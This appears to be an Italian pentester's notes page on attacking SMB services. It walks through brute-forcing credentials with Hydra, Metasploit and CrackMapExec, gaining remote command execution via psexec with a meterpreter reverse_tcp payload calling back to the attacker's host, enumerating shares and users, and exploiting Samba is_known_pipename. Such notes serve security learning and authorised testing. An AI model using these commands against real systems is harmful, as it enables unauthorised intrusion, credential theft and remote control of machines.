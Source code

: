 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <smb-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

Versioni SMB:
- **SMB 1.0** ⟶ insicuro, supporta accessi anonimi, molte vulnerabilità.
- **SMB 2.0/2.1** ⟶ introdotti con Windows Vista e Server 2008, migliorie in sicurezza e prestazioni.
- **SMB 3.0+** ⟶ da Windows 8 in poi, supporto crittografia, multicanale, virtualizzazione.

---

## Brute Force
Molto probabilmente il servizio sará protetto da credenziali e quindi cerchiamo di trovare con un attacco bruteforce
### Hydra
```bash
hydra -L <userList> -P <passwordList> <IP> smb
```

### Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### CrackMapExec
strumento da riga di comando scritto in Python, progettato per automatizzare la ricognizione e l’attacco a reti Windows, in particolare in ambienti Active Directory. 
```bash
crackmapexec smb <target> -u <userList> -p <passwordList>
#dopo aver ottenuto delle credenziali
crackmapexec smb <target> -u <username> -p <password> --shares     # elenca condivisioni
crackmapexec smb -u <username> -p <password> <target> --users      # enumera utenti
crackmapexec smb -u <username> -p <password> <target> -x "whoami"  # esegue un comando
```
> È potente, ma anche rumoroso nei log di rete: in un test reale, valuta il rischio di account lockout e allarmi SIEM

---

## PsExec (Metasploit)
Dopo aver scovato delle credenziali possiamo usare uno strumento sviluppato da Sysinternals (Microsoft) che permette di eseguire comandi su un sistema Windows remoto come se li stessi eseguendo in locale.
> Attenzione percè funziona solo con credenziali di livello amministrativo e valide (`ADMIN$`, `IPC$`)
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```
## PsExec (Script)
Esiste anche uno script incluso nel pacchetto Impacket, che replica il comportamento di PsExec di Sysinternals
```bash
/usr/share/doc/python3-impacket/examples/psexec.py         # Percorso tipico
cp /usr/share/doc/python3-impacket/examples/psexec.py .    # Copia nella Directory corrente (.) 
chmod +x psexec.py
# utilizzo

psexec.py <username>@<IP> cmd.exe                          # accesso CMD remoto via SMB
```

---


## Enumerazione interna
Per poter enumerare bene, si deve andare piú a fondo e quindi esistono diversi strumenti, ognuno con caratteristiche specifiche che li rendono adatti a compiti complementari
### smbclient
strumento da riga di comando incluso nel pacchetto Samba (su Linux), che permette di connettersi a condivisioni SMB/CIFS su server Windows, Linux o Samba.
```bash
smbclient -L //<target>/ -N                    # condivisioni anonime
smbclient -L <IP> -U <username>                # share disponibili per utente
smbclient //<target>/<share> -U <username>     # accesso alla share, inserisci la password in seguito
```
Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`
> File come `*.tar.gz` possono essere estratti con `tar xzf file.tar.gz`

### rpcclient
strumento da riga di comando incluso nel pacchetto Samba, che consente di interagire con i servizi RPC (Remote Procedure Call) dei sistemi Windows.
```bash
rpcclient -U "" <IP>                # connessione null session
rpcclient -U utente <IP>            # connessione usando le credenziali
rpcclient -U utente%password <IP>   # connessione con credenziali insieme
```
Comandi dentro RPC CLient: 
```bash
enumdomusers      # elenca tutti gli utenti del dominio o del sistema locale
enumdomgroups     # elenca tutti i gruppi definiti nel dominio o nella macchina locale
queryuser <RID>   # Permette di ottenere informazioni dettagliate su un singolo utente, partendo dal suo RID
```

### smbmap
strumento da riga di comando scritto in Python che serve per enumerare le condivisioni SMB su sistemi Windows o Samba, e capire che tipo di accesso ha un determinato utente (lettura, scrittura, esecuzione, ecc.).
```bash
smbap -H <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
smbmap -H <IP> -u <username> -p <password>
```
> `R` = lettura <br>
> `W` = scrittura <br>
> `-` = nessun accesso <br>

### enum4linux
strumento da riga di comando, basato su `smbclient`, `rpcclient`, `nmblookup`, usato per enumerare informazioni da sistemi Windows o Samba tramite SMB. Permette di raccogliere dati come utenti, gruppi, condivisioni di rete, nomi NetBIOS, domini, SID e molto altro, anche senza credenziali, sfruttando chiamate RPC e SMB.
```bash
enum4linux <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
enum4linux -u <user> -p <password> <IP>
```

---

## Exploits
Altri exploit utilizzabili sono:
### Linux
```bash
use exploit/linux/samba/is_known_pipename
set RHOST <IP>
check
run
```
otterremo una shell unix sul target.
> se abbiamo delle informazioni su delle share possiamo settare `SMB_SHARE_NAME` con il nome della share nota.

se volessimo upgradare la shell con meterpeteer, usiamo il modulo
```bash
use post/multi/menage/shell_to_meterpreter
set LHOST <IP>
set SESSION <number>
run
```
oppure 
```bash
sessions -u <number>
```
ottenendo un altra sessione meterpeter
```bash
sessions 
```

---

